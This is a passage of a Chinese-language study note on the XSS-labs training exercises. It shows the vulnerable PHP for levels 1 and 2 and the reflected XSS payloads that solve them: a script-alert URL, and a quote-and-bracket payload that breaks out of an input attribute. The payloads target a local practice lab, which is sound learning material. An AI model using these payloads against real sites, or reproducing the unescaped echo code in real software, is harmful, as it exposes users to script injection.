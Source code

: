 # XSS-labs 学习笔记

参考博客文章如下，十分感谢：

* https://skywt.cn/blog/xss-labs-tutorial/
* https://blog.csdn.net/2301_80031208/article/details/139159525



## 第 01 关：未对 POST 参数进行任何过滤

后端源码：

```php
$str = $_GET["name"];
echo "<h2 align=center>欢迎用户".$str."</h2>";
```

解题思路：

```html
http://localhost/xss-labs/level1.php?name=<script>alert()</script>
```



## 第 02 关：标签闭合 + JS注入

这关如果在输入框中直接注入 `<script>alert()</script>`，会发现（**Deverloper Tool —> Network —> Get Request Item —> Response** 或者**右击查看网页源代码**）：Get 请求所发送的数据被后端转义成 HTML 实体了！但是，通过观察后端源码可知，`htmlspecialchars()` 函数并没有对单引号进行转义，好吧这点尽管在这里利用不上，最后得出一个结论：无法在 <h2> 标签处中进行 XSS 注入

```html
<h2 align=center>没有找到和&lt;script&gt;alert()&lt;/script&gt;相关的结果.</h2><center>
```

用于将前端数据转义成 HTML 实体的后端代码：

```php
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
```

在认真观察下前端页面 html 源码：

前端页面 html 源码：输入框输入的数据赋值给了 value 属性

```html
<input name="keyword" value="ddd">
```

解题思路：闭合 input 标签 + 注入JS

```js
// 符号 "> 用于闭合 input 标签，即构成 <input name=keyword  value="">
"><script>alert()</script>
```



## 第 03 关：标签属性闭合 + 注入事件属性
